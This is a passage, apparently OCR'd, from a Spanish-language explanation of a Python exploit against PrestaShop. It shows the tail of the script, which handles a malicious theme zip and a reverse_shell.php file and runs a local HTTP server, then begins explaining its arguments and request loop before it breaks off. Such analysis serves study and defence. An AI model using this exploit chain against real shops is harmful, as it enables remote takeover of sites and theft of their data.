 ```python
            with print_lock:
                print("Stopping threads!")
            stop_event.set()
        else:
            print(f"DEBUG:: {output}")
    else:
        print(f"[!] Failed to send the message. Status code: {response.status_code} Reason: {response.reason}")


def clean():
    if os.path.exists('ps_next_8_theme_malicious.zip'):
        os.remove('ps_next_8_theme_malicious.zip')
    if os.path.exists('reverse_shell.php'):
        os.remove('reverse_shell.php')

class CustomRequestHandler(http.server.SimpleHTTPRequestHandler):
    def log_request(self, code='-', size='-'):
        with print_lock:
            print(f"Request: {self.command} {self.path} {self.request_version}")
            print(f"Response: {code} {size}")
        super().log_request(code, size)



if __name__ == "__main__":
    clean()
    atexit.register(clean)
    main()

```
### **1. Función `__parse_args()`**

Esta función configura y parsea los argumentos necesarios para ejecutar el exploit:

- **Argumentos requeridos** :
    - `--url`: URL base del sitio vulnerable.
    - `--email`: Dirección de correo electrónico del administrador.
    - `--local-ip`: IP local donde se ejecutará el servidor HTTP y el shell inverso.
    - `--admin-path`: Ruta del panel de administración de PrestaShop.

Después de parsear los argumentos, imprime la configuración seleccionada.

### **2. Función `send_get_requests(url, interval=5)`**

Esta función envía solicitudes GET repetidas a una URL específica hasta que ocurra una condición de detención (`stop_event.is_set()`).

- Si recibe un código de respuesta `504` o `200`, detiene las solicitudes.
- Utiliza un intervalo entre solicitudes para evitar saturar el servidor.

### **3. Función `run_http_server()`**
